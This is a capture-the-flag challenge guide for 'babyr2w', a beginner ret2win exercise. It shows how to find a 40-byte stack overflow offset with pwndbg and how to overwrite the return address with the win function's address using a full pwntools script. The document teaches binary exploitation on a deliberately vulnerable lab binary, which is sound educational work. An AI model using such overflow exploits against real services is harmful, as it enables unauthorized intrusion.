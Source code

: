 # Challenge Name
babyr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, you can see that `win` function is never called. We want to call this function as it contains the flag.

If you recall your basic buffer overflow practice, we overflowed the **saved base pointer address** to cause a segmentation fault. This time on top of that, we want to overwrite the return address.

|buffer|
:-:
|saved base pointer of caller|
|return address of caller| 
|function arguments|


With what we know, we just need to add an address after we overflow. (since return address is after saved base pointer address)

We will perform a technique called **ret2win**. The idea is overflow and rewrite the **return address** on the stack to another function.

### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `win` address

### To find the offset needed:
1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes. This cyclic sequence helps uses to identify what address or how many bytes we want to overwrite.
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc48 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```

This is the offset needed to overflow:

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

### To find the win address:

Run this in your terminal:

```shell
$> objdump -d chall | grep win
0000000000400797 <win>:
```

Now we can put our solve script together!

### Final Solution

1. Import the library
```python
from pwn import *
```

2. Depending on whether you want to solve locally or remotely, add either of the following:
```python
# local solve
p = process("./chall")

# remote solve
p = remotes("IP", PORT)
```

3. Now we need to add our win address (`p64()` because of little-endianness)
```python
win = p64(0x400797)
```

4. Since we want to send 40 bytes of input + win address:
```python
payload = b'A' * 40
payload += win
```

5. Interact with the service
```python
p.interactive()
```

When we put all that together u should get this:
```python
from pwn import *

# local solve
# p = process("./chall")

# remote solve
p = remote("IP", PORT)

# address of win function
win = p64(0x400797)

# payload 
payload = b'A' * 40
payload += win

# send payload
p.sendline(payload)
p.interactive()
```

Run in your terminal to solve:
```shell
$> python3 script.py
```
## Solution
Refer to solve.py

## Hints
1. https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Flag
TBD